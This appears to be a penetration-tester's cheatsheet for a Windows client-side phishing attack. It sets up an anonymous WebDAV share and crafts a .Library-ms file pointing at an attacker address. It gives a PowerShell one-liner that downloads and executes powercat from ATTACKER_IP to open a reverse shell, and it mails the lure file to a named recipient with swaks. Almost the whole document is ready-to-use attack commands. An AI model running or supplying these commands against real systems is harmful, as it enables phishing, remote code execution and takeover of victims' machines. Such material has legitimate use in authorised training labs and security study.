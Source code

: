 # Client-Side Attacks Cheatsheet

### Phishing Attack

**Open a WebDav**
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/beyond/webdav/
```

**Create a config.Library-ms file**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.XXX</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
**Create a link**

```bash
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKER_IP:8000/powercat.ps1'); powercat -c ATTACKER_IP -p ATTACKER_PORT -e powershell"
```

**Swaks to automatically send smtp mail**

Needs an autheticated user

```bash
sudo swaks -t daniela@beyond.com --from john@beyond.com --attach @config.Library-ms --server SMTP_IP --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
